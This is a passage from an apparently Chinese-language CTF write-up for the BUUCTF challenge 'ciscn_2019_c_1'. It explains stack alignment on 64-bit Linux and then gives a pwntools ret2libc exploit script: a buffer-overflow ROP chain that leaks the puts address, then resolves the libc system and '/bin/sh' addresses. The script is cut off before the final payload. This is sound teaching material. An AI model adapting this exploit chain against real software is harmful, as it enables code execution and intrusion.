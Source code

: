 此时可以有两个方法来解决这一问题:
 1. 尝试通过`p64(ret_addr)`来栈对齐
 2. 放弃使用`system`而利用`execve`, 但坏处是在`64`位环境下需要`3`个寄存器来构造参数.

在这道题中是`64`位程序, 如果要构建`ROPgadget`, 不一定能同时找到三个寄存器的语句, 因此这个方法就不一定能行得通. 要想栈对齐, 最好使用`ret`.

可以看到此时`0x79`加上结尾`\x00`也就是`0x80`能被`0x10`, 也就是`16`整除, 栈对齐.

<div align=center><img src="./images/39.png"></div>

`exploit`如下:

```python
from pwn import *
from LibcSearcher import *

content = 1
context(os='linux', arch='amd64', log_level='debug')

remote_env = 'node4.buuoj.cn:28141'
local_env = './ciscn_2019_c_1'

elf = ELF(local_env)
ret_addr = 0x00000000004006b9
pop_rdi_addr = 0x0000000000400c83

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

log.success('puts_plt = ' + hex(puts_plt))
log.success('puts_got = ' + hex(puts_got))
log.success('main_addr = ' + hex(main_addr))

if content:
    sh = remote(remote_env.split(':')[0], int(remote_env.split(':')[1]))
else:
    sh = process(local_env)

payload_leak_libc = '\0' + 'a' * (0x50 + 7)
payload_leak_libc += p64(pop_rdi_addr)
payload_leak_libc += p64(puts_got)
payload_leak_libc += p64(puts_plt)
payload_leak_libc += p64(main_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_leak_libc)
sh.recvuntil('Ciphertext\n')
sh.recvuntil('\n')

puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, '\x00'))
log.success('puts_addr = ' + hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base_addr = puts_addr - libc.dump('puts')
binsh_addr = libc_base_addr + libc.dump('str_bin_sh')
system_addr = libc_base_addr + libc.dump('system')

log.success('libc_base_addr = ' + hex(libc_base_addr))
```